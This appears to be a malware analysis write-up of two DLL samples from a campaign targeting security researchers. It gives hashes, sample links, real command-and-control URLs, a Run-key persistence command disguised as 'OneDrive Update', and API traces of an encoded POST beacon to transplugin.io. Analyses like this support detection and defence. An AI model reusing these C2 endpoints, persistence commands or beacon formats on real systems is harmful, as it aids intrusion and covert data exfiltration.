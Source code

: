 SHA256 : 4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
SHA256 : A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855  
sample source : https://bazaar.abuse.ch/sample/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244/  
sample source : https://bazaar.abuse.ch/sample/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855/  
VT : https://www.virustotal.com/gui/file/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
VT : https://www.virustotal.com/gui/file/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855   

Report: https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/  

C2 :  
https://www.dronerc.it/shop_testbr/upload/upload.php  
https://transplugin.io/upload/upload.asp  
https://codevexillium.org/image/download/download.asp  

---

Initial DLL (4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244) is dropping and 'installing' and starting the 2nd DLL (A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855) through a basic persistency mechanism :  

```html
[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <RegSetValueExA> in [ADVAPI32.dll] 
[PAR] HKEY    hKey        : 0xf0 
[PAR] LPCTSTR lpValueName : 0x0000003DFD70EDB0
[STR]         -> "OneDrive Update"
[PAR] DWORD   dwType      : 0x1 (REG_SZ)
[PAR] BYTE    *lpData     : 0x0000003DFD70EEE0
            -> 0x0000003DFD70EEE0
[STR] -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[RET] 0x7ff9b1563879 in [cms_data_final.dll]

[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x0000003DFD70EEE0
[STR]                       -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x0
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x0000003DFD70CD30
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x0 
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x0000003DFD70CD10
[RET] 0x7ff9b156397d in [cms_data_final.dll]
```

There is then nothing much to observe through dynamic analysis :  

```html
[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <InternetConnectW> in [WININET.dll] 
[PAR] HINTERNET     hInternet      : 0xcc0010
[PAR] LPCWSTR       lpszServerName : 0x000000457D49CF40 ("transplugin.io")
[PAR] INTERNET_PORT nServerPort    : 443
[PAR] LPCWSTR       lpszUsername   : 0x0 (null)
[PAR] LPCWSTR       lpszPassword   : 0x0 (null)
[PAR] DWORD         dwService      : 0x3 (INTERNET_SERVICE_HTTP)
[PAR] DWORD         dwFlags        : 0x0 
[RET] 0x1800029f1

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpOpenRequestW> in [WININET.dll] 
[PAR] HINTERNET hConnect           : 0xcc0014
[PAR] LPCWSTR   lpszVerb           : 0x00000001800580D0 ("POST")
[PAR] LPCWSTR   lpszObjectName     : 0x000000457D49D920
[STR]           -> "/upload/upload.asp"
[PAR] LPCWSTR   lpszVersion        : 0x00000001800580B8
[STR]           -> "HTTP/1.0"
[PAR] LPCWSTR   lpszReferer        : 0x0 (null)
[PAR] LPCWSTR   *lplpszAcceptTypes : 0x0
[PAR] DWORD     dwFlags            : 0x803000 (INTERNET_FLAG_SECURE | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_IGNORE_CERT_CN_INVALID)
[RET] 0x180002a44

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpSendRequestW> in [WININET.dll] 
[PAR] HINTERNET hRequest         : 0xcc0018
[PAR] LPCWSTR   lpszHeaders      : 0x0 (null)
[PAR] DWORD     dwHeadersLength  : 0x0
[PAR] LPVOID    lpOptional       : 0x000000457F1868C0
[STR]           -> "XW=EZYNQE&XOHTN=NDkwMThYOU8zSWRuQjJONw==&EWKK=&HIXXEE=0&HPYYJD=52&JTMDLK=MgAwADIANQAtADAAMwAtADAANAAgADIAMQA6ADMANwA6ADM"
[STR]              "AOQA=&LSZRYMNDS=IPTDYCTZLUHNEJATJ&NONPECZ=FLOTMDRIMZIUQZZG"
[PAR] DWORD     dwOptionalLength : 0xb2
[RET] 0x18000314f
```


